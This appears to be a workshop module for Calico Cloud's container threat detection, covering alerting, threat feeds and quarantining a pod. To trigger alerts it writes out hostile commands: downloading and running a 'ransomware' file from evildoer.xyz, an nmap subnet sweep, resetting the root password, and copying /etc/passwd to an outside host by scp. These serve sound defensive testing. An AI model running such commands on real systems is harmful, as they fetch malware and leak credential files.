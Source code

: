 # Module 3 - Malware protection, access control and quarantine with Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. Navigate to `Threat Defense > Container Threat Detection` and click the `Enable Container Threat Detection` button.

   ![enable-threat-detection](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/89d290a7-2aef-4a6b-8813-11bf94db2577)

   Perfect! Now, any suspicious activities will generate an alert. Let's try some.

   To see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

## Malware execution alert and security events

Security events suggest the possible presence of a threat actor in your Kubernetes cluster. These events can take various forms, such as a DNS request to a suspicious domain, the activation of a Web Application Firewall (WAF) rule, unauthorized access to sensitive files, or the detection of malware. Calico Cloud offers a centralized dashboard for security engineers and incident response teams to efficiently oversee and respond to these threat alerts. The advantages of using Calico Cloud in this context include:

- A filtered list of critical events with recommended remediation
- Identify impacts on applications
- Understand the scope and frequency of the issue
- Manage alert noise by dismissing events (show/hide)

To test this feature, we can download a file containing the hash of malware and execute it inside the pod attacker.

1. Execute the bash inside the pod attack in the way you can interact with its shell prompt:

   ```bash
   kubectl exec attacker -it -- /bin/bash
   ```

2. From the bash inside the pod `attacker`, execute the following command to download the malware, change its permission and run it.

   ```bash
   wget http://evildoer.xyz/ransomware
   chmod +x ransomware
   ./ransomware
   ```
   
3. Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   ![security-events](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/0264703a-ff38-4fc5-b65a-24ef187803ee)

   Because the `ransomware` file has a hash that identifies it as malware, Calico will create a **Malware** event indicating its execution event. Additionally, a security event showing the modification of the file permission (`chmod +x ransomware`) will be created as well.

   Optionally, you can also try the following commands and observe the security events that are created;
   
   ```bash
   apk add nmap
   nmap -sn $(hostname -i)/24
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security` again.

## Threat Feeds

In modern cloud-native security, threat intelligence feeds are vital for monitoring and tracking the IP addresses and domains associated with known malicious actors. Calico Cloud integrates threat intelligence feeds, including AlienVault, into its default security policies. This means that right from the outset, any traffic directed to suspicious IP addresses or domains is automatically blocked without requiring additional setup.

1. Explore the Threat Feeds available in Calico Cloud UI in the `Threat Defense` > `Threat Feeds`. Click on each one to visualize the lists of IP addresses or domains.

   ![threat-feeds](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/719cb334-e981-4e5e-8ef4-b37eea4a422b)

2. Using the pod attacker, try to connect to some of the IP addresses and domains you found in the alienvault lists.

   ```bash
   curl -m2 -vvvvv 
   ```

3. Wait a minute and go to the Calico Cloud UI in the `Activity` > `Alerts`. You should be able to see the alerts for the connection attempt.

   ![activity-alerts](https://github.com/tigera-solutions/cc-eks-visualize-identify-security-gaps/assets/104035488/dadb5ce6-db8a-455c-bdcc-f26625841ffe)

## Quarantine a workload

Suppose you have a compromised workload in your environment and want to conduct further investigation on it. In that case, you should not terminate the workload but isolate it so it will not be able to cause damage or spread laterally across your environment. In this situation, you should quarantine the pod by applying a security policy that will deny all the egress and ingress traffic and log all the communications attempts from and to that pod.

We have the `quarantine` policy created in the `security` tier. This policy has a label selector of `quarantine = true`. Let's see how it works.

1. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if that's the case.).

   - Test the connection to a local service

     ```bash
     curl -m3 http://vote.vote
     ```

   - Test the connectivity with the Kubernetes API

     ```bash
     curl -m3 -k https://kubernetes:443/versions
     ```  

   - Test the connectivity with the internet

     ```bash
     curl -m3 http://neverssl.com
     ```  

2. Label the attacker pod with `quarantine = true`. 

   ```bash
   kubectl label pod attacker quarantine=true
   ```

3. Repeat the tests from step 1. Now, as you can see, they cannot establish communication with any of the destinations.

--- 
[:arrow_right: Module 4 - Enforcing security policy to stop C&C attacks](/mod/module-4-security-policies.md)   <br>

[:arrow_left: Module 2 - Analyze service-to-service communication](/mod/module-2-analyze-communications.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
